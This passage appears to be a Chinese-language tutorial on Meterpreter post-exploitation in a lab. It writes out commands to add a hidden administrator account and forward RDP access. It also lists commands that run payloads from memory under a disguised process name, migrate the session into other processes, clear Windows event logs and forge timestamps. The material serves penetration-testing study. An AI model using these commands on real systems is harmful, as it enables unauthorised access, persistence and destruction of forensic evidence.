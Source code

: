 4. 这里开启并使用远程桌面
   
   ```r
   # 创建新的管理员账户(直接更改管理员密码 net user Administrator 123)
   whoami
   net user
   net user wk 123 /add
   net localgroup administrators wk /add   #wk加入管理员账户
   
   # 使用远程桌面
   portfwd add -l 2222 -p 3389 -r 127.0.0.1  #先将3389流量转发到代理服务器
   rdesktop 127.0.0.1:2222     #kali自带rdesktop
   
   
   ```
    ![权限为系统权限](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2022-02-50%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2022-00-42%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/2019-11-17%2022-08-53%20%E7%9A%84%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

    我这里出现错误，下载的win 7的系统有问题，但是此时的用户是正常使用的。
    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/%25IU1.png)

    ![](https://raw.githubusercontent.com/alpha302/cloudimg/master/%25%24FXJE5F5.png)

    到此时，接下来的操作大家都懂的！

## 常用命令总结

#### execute执行文件

```r
execute #在目标机中执行文件
execute -H -i -f  cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
execute -H -m -d notepad.exe -f payload.exe -a "-o hack.txt"
# -d 在目标主机执行时显示的进程名称（用以伪装）-m 直接从内存中执行
"-o hack.txt"是payload.exe的运行参数
```

#### migrate进程迁移

```r
getpid    # 获取当前进程的pid
ps   # 查看当前活跃进程
migrate <pid值>    # 将Meterpreter会话移植到指定pid值进程中
kill <pid值>   # 杀死进程
```
#### clearev清除日志
```R
clearev  # 清除windows中的应用程序日志、系统日志、安全日志
```
#### timestomp伪造时间戳
```r
timestomp C:\\ -h   #查看帮助
timestomp -v C:\\2.txt   #查看时间戳
timestomp C:\\2.txt -f C:\\1.txt #将1.txt的时间戳复制给2.txt
timestomp  c:\\test\\22.txt -z "03/10/2019 11:55:55" -v # 把四个属性设置为统一时间
```
